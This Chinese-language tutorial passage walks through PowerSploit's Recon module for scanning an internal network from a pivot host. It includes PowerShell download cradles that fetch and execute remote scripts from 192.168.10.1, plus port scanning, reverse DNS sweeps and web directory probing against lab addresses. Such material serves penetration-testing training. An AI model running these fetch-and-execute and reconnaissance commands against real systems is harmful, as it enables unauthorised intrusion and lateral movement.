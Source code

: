 Reacon 模块

这个模块就是用来扫内网的，通过该主机为跳板机探测内网主机、端口服务等  

Invoke_Portscan

就是用来扫描内网端口

一样的步骤，先调用模块

```
PS C:> IEX(New-Object net.webclient).Downloadstring('http://192.168.10.1/PowerSploit/Recon/Invoke-Portscan.ps1')
```

然后利用 Invoke-Portscan 扫就行了

```
PS C:> Invoke-Portscan -Host 192.168.10.6 -ports "1-1000"
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYaMW1HmmlM7jFibGMLdAPpqC2ntbcHypaDWBjzPpTJgIUaNhRYg5owqjQ/640?wx_fmt=png)

扫到一个 80 端口

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYa2aNNickhgbdPSMYZ4ibJ6iau2MCRtdClK8fBvR3qcjsBQlRfDYnXmiaZmw/640?wx_fmt=png)

Invoke-ReverseDnsLookup

反向 DNS 查询，扫描内网主机的 ip 对应的主机名

在内网或域内，每个 IP 都对应一个主机名

```
PS C:> Invoke-ReverseDnsLookup 192.168.10.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYayzCneT1lMFibictk4pdbsJqh3ibPWhbhkxOLuxyCl2wcxRCos9U1aEPFA/640?wx_fmt=png)  

Get-HttpStatus

扫描内网站点的 web 目录，需要一个字典哦

```
PS C:> Get-HttpStatus -Target 192.168.10.6 -Path C:\dict.txt
```

Get-ComputerDetails  

获得登录信息

提示

powershell 命令是可以在 cmd 直接运行的  

```
powershell -com iex(New-Object net.webclient).Downloadstring('http://192.168.10.1/123.txt')
```

如果我们调用模块必须进入 powershell 命令行, 这样才能使用我们调用的模块  

```
C: > powershell
PS C: >
```
